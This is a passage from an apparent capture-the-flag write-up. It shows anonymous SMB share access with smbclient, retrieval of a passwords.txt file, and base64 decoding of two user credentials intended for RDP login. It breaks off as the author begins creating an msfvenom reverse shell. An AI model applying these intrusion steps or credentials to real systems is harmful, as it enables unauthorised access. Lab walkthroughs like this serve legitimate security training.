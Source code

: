 **Key Finding**:
- **nt4wrksv**: Disk accessible without a password.

### Accessing `nt4wrksv` Share
Connected to the `nt4wrksv` share:

```bash
smbclient //10.10.134.54/nt4wrksv
```

**Results**:
```bash
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 5135954 blocks available
```

Found a file named `passwords.txt` and downloaded it using the `get` command.

**Content of `passwords.txt`**:
```bash
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

The contents appeared to be Base64-encoded. Decoded them:

```bash
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀 ➜ ~ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀 ➜ ~ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀 ➜ ~ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

**Credentials**:
- Bob: `!P@$$W0rD!123`
- Bill: `Juw4nnaM4n420696969!$$$`

These credentials can be used to log in via RDP on port 3389, identified during the Nmap scan. Additionally, based on experience, the SMB share is likely accessible via the web server on port 49663 (from Nmap results).

## Gaining Access
Created a reverse shell using `msfvenom`:
